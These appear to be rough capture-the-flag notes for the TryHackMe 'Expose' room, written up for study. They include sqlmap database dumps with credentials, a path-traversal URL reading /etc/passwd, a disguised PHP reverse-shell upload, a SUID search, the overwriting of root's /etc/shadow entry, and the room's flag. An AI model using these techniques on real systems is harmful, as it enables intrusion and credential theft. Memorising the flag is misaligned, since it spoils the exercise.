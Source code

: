 ```yaml
---
title: Expose
draft: 
tags:
  - thm
  - oscp
  - easy
---
```

These are some rough notes I took when in the Expose TryHackMe room. These are notes uploaded after the fact and from before my attempting to make detailed write-ups.
# Port Scanning
`nmap -p- <IP>`

Then use -sV on the services found.


```
Database: expose
Table: user
[1 entry]
+----+-----------------+---------------------+--------------------------------------+
| id | email           | created             | password                             |
+----+-----------------+---------------------+--------------------------------------+
| 1  | hacker@root.thm | 2023-02-21 09:05:46 | VeryDifficultPassword!!#@#@!#!@#1231 |
+----+-----------------+---------------------+--------------------------------------+

[11:47:01] [INFO] table 'expose.`user`' dumped to CSV file '/home/kali/.local/share/sqlmap/output/10.10.69.234/dump/expose/user.csv'
[11:47:01] [INFO] fetching columns for table 'config' in database 'expose'
[11:47:02] [INFO] retrieved: 'id'
[11:47:02] [INFO] retrieved: 'int'
[11:47:02] [INFO] retrieved: 'url'
[11:47:02] [INFO] retrieved: 'text'
[11:47:03] [INFO] retrieved: 'password'
[11:47:03] [INFO] retrieved: 'text'
[11:47:03] [INFO] fetching entries for table 'config' in database 'expose'
[11:47:03] [INFO] retrieved: '/file1010111/index.php'
[11:47:04] [INFO] retrieved: '1'
[11:47:04] [INFO] retrieved: '69c66901194a6486176e81f5945b8929'
[11:47:04] [INFO] retrieved: '/upload-cv00101011/index.php'
[11:47:04] [INFO] retrieved: '3'
[11:47:05] [INFO] retrieved: '// ONLY ACCESSIBLE THROUGH USERNAME STARTING WITH Z'
[11:47:05] [INFO] recognized possible password hashes in column 'password'

```



```
69c66901194a6486176e81f5945b8929
easytohack
```

After using that password on the /file1010111/index.php page, we can there use LFI
```
http://10.10.69.234:1337/file1010111/index.php?file=/../../../../../../../etc/passwd
```

```
root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin messagebus:x:103:106::/nonexistent:/usr/sbin/nologin syslog:x:104:110::/home/syslog:/usr/sbin/nologin _apt:x:105:65534::/nonexistent:/usr/sbin/nologin tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin sshd:x:109:65534::/run/sshd:/usr/sbin/nologin landscape:x:110:115::/var/lib/landscape:/usr/sbin/nologin pollinate:x:111:1::/var/cache/pollinate:/bin/false ec2-instance-connect:x:112:65534::/nonexistent:/usr/sbin/nologin systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false mysql:x:113:119:MySQL Server,,,:/nonexistent:/bin/false zeamkish:x:1001:1001:Zeam Kish,1,1,:/home/zeamkish:/bin/bash ftp:x:114:121:ftp daemon,,,:/srv/ftp:/usr/sbin/nologin bind:x:115:122::/var/cache/bind:/usr/sbin/nologin Debian-snmp:x:116:123::/var/lib/snmp:/bin/false redis:x:117:124::/var/lib/redis:/usr/sbin/nologin mosquitto:x:118:125::/var/lib/mosquitto:/usr/sbin/nologin fwupd-refresh:x:119:126:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
```

Now on the 
```
/upload-cv00101011/index.php
```
page we can login with the `zeamish` user

this page allows file uploads

We are able to upload a php reverse shell by naming it .png and then capturing the POST in burpsuite, and changing the name back to .php

we are able to use netcat to listen to the port specified, then navigate to the directory where the file was uploaded to thanks to the source code


Navigating to the user directories, we find

```
SSH CREDS
zeamkish
easytohack@123
```

Now we can run 

`find / -perm -04000 -type f -ls 2>/dev/null`

to find things with a SUID bit set

we find nano

nano can edit /etc/shadow file

```
$ openssl passwd -1 -salt root 1234 
$1$root$.fAWE/htZAqQge.bvM16O/
```

add this to the /etc/shadow for root

```
THM{ROOT_EXPOSED_1001}
```

